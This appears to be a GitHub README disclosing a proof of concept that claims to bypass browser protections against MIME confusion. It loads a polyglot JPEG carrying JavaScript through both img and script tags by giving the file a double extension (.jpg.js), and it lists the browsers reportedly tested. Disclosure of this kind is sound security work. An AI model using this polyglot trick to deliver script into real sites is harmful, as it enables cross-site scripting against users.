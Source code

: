 # Bypass CSP against MIME Confusion Attack

Major browsers have implemented Content Security Policy against MIME confusion attacks since 2018, reported by CVE-2018-5164 and CVE-2019-19916 (my report) which use polyglot image files (GIF, JPG ...) with embedded JavaScript code (as described here: https://blog.mozilla.org/security/2016/08/26/mitigating-mime-confusion-attacks-in-firefox/ and here https://github.com/V1n1v131r4/MIME-Confusion-Attack-on-Midori-Browser).

But based on my studies I found a way to bypass CSP and perform Cross-Site Script (XSS) attacks by exploiting the MIME Type of the HTTP header.


## Proof of concept Step-by-step

CSP's correct behavior in HTTP MIME Type is not to allow an image file with embedded JavaScript code to be read as script, as below the HTML/JS code below:

```
<html>
     <img src="2x.jpg">
	   <script src="2x.jpg"></script>
 </html>
```

I managed to bypass CSP by stating more than one extension in the image file with embedded JavaScript code, like this:

```
<html>
     <img src="2x.jpg.js">
	   <script src="2x.jpg.js"></script>
 </html>
```

So the image continues to be read as script by `<script>` tag and as image by `<img>` tag.

  
The image used as PoC was the one available here: http://portswigger-labs.net/polyglot/jpeg/xss_within_header_compressed_small_logo.jpg


The inline JavaScript code was this:
```
*/=alert("Burp rocks.")/*
```

The PoC website is hosted at: http://joomla.sejalivre.org/index2.html



## Vulnerable Browsers

This PoC has been tested on the following browsers:

* Mozilla Firefox 71.0 (Windows, Linux and Android)
* Google Chrome 79.0.3945.88 (Windows, Linux and Android)
* Google Chromium 81.0.4003.0 (Windows and Linux)
* Apple Safari 13.0.4 (MacOS Catalina)
* Opera 60 - R3 (Windows and Linux)
* Microsoft Edge (Windows 10)
* Microsoft Internet Explorer 11 (Windows 10)


## Screenshots

Below are some screenshots of PoC

Google Chrome
![alt](https://ciber.sejalivre.org/WP/chrome.png)

Google Chromium
![alt](https://ciber.sejalivre.org/WP/chromium.png)

Mozilla Firefox
![alt](https://ciber.sejalivre.org/WP/firefox.png)

Opera
![alt](https://ciber.sejalivre.org/WP/opera.png)

Safari
![alt](https://ciber.sejalivre.org/WP/safari.jpeg)

Edge
![alt](https://ciber.sejalivre.org/WP/edge.jpeg)

IE
![alt](https://ciber.sejalivre.org/WP/IE.jpeg)

